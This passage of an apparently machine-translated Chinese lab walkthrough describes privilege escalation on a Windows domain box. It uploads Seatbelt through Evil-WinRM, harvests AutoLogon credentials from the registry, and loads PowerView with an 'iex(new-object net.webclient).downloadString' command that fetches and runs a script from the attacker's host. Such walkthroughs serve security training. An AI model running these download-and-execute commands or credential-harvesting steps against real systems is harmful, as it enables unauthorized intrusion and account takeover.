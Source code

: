 ## fsmith → svc_loanmgr

为了列举我如何提升权限，我使用了[安全带](https://github.com/GhostPack/Seatbelt)，这是一个检查常见 Windows 配置的工具。我将该文件放在我的 Python http 服务器上，并下载到机器上。

```
*Evil-WinRM* PS C:\Users\FSmith\Documents> iwr -uri [http://10.10.14.3/s.exe](http://10.10.14.3/s.exe) -o ..\music\s.exe
```

我用`-group=all`选项运行`Seatbelt`，因为我想让蓝队找到我。请注意，这是非常嘈杂的，因此在实际参与中，不要运行`-group=all`选项。

![](img/26ac790aa9284dc4d609c5aad5612d28.png)

一个值得注意的发现是留在 WindowsAutoLogon 上的凭证。这通常是一种错误的配置，因为它提供了便利。你可以在这里了解更多信息[。](https://support.microsoft.com/en-ph/help/324737/how-to-turn-on-automatic-logon-in-windows)

![](img/aeb668b46bd2bf8c0c8be79526817f5a.png)

微软提到这是一个安全风险:

> 如果您将电脑设置为自动登录，任何可以实际访问该电脑的人都可以访问该电脑的所有内容，包括它所连接的任何网络。此外，当自动登录打开时，密码以纯文本形式存储在注册表中。Authenticated Users 组可以远程读取存储该值的特定注册表项。只有在计算机受到物理保护并且已经采取措施确保不受信任的用户无法远程访问注册表的情况下，才建议使用此设置。

然后，我以`svc_loanmgr`的身份登录到机器。然后我开始在盒子上装载 [Powerview](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon) 。

```
iex(new-object net.webclient).downloadString('[http://10.10.14.3:9000/1.ps1'](http://10.10.14.3:9000/1.ps1'))
```
